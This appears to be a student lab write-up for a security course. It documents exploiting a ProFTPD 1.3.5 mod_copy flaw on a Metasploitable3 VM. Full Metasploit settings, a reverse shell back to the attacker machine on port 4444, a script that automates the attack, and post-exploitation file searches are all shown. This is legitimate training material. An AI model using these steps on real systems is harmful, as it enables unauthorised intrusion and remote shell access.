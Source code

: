 # Phase 1: Service Setup & Compromise

This directory contains all artifacts, scripts, and outputs for **Phase 1** of the ICS344 Course Project: identifying and exploiting a vulnerable FTP service on the Metasploitable3 VM.

---

## 1. Environment IP Addresses

1. **Attacker (Kali Linux)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.8/24
   ```

   ![](screenshots/kali_ping.jpg)

2. **Victim (Metasploitable3)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.15/24
   ```

   ![](screenshots/metasploitable_ip.jpg)

---

## 2. FTP Service Detection

We confirmed an FTP server running ProFTPD 1.3.5 on port 21:

```bash
$ nmap -sV -p 21 10.0.2.15
# 21/tcp open  ftp  ProFTPD 1.3.5
```

---

## 3. Metasploit Exploit: `mod_copy_exec`

We used the `proftpd_modcopy_exec` exploit to drop a PHP payload and obtain a shell.

```bash
$ msfconsole -q
msf6> use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RHOSTS 10.0.2.15
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RPORT 21
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPUSER faisal
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPPASS faisal1234
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set SITEPATH /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set TMPPATH /tmp
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LHOST 10.0.2.8
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LPORT 4444
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> exploit
```

### 3.1 Session Established

```text
[*] Started reverse TCP handler on 10.0.2.8:4444
[*] 10.0.2.15:80 – Connected to FTP server
[*] 10.0.2.15:80 – Sending copy commands to FTP server
[*] 10.0.2.15:80 – Executing PHP payload /6zRR2YD.php
[*] 10.0.2.15:80 – Deleted /var/www/html/6zRR2YD.php
[+] Command shell session 1 opened (10.0.2.8:4444 -> 10.0.2.15:56577)
```

![](screenshots/msf_run_exploit.jpg)

---

## 4. Module Configuration & Targets

* **Payload Options**: `cmd/unix/reverse_netcat`, `cmd/unix/reverse_perl`, etc.
* **Detected Target**: ProFTPD 1.3.5 (auto-detected)

![](screenshots/msf_set.jpg)
![](screenshots/msf_use.jpg)

---

## 5. Automated Exploit Script

We wrapped the above steps into a Python script (`script2.py`) for repeatable execution:

```bash
$ ./script2.py
# output:
#   Started reverse TCP handler on 10.0.2.8:4444
#   Connected to FTP server
#   Sending copy commands...
#   Executing PHP payload /MFG4doW.php
#   Deleted /var/www/html/MFG4doW.php
# [+] Command shell session 1 opened
```

![](screenshots/script_automation.jpg)

---

## 6. Interactive Shell & Enumeration

Once the session was open, we ran basic enumeration:

```bash
sessions -i 1
whoami
ls -al /
find / -name secret*.txt
```

This confirmed root-level file access and located `secret.txt` on the filesystem.

---

### Deliverables for Phase 1

* **Screenshots** (in `screenshots/`):

  * `kali_ping.jpg`
  * `metasploitable_ip.jpg`
  * `msf_run_exploit.jpg`
  * `msf_set.jpg`
  * `msf_use.jpg`
  * `script_automation.jpg`
* **Exploit Script**: `script2.py`
* **Raw Scan Outputs**: `phase1_nmap.txt`, `phase1_nikto.txt`
* **Custom Banner Script**: `phase1_http_banner.py`

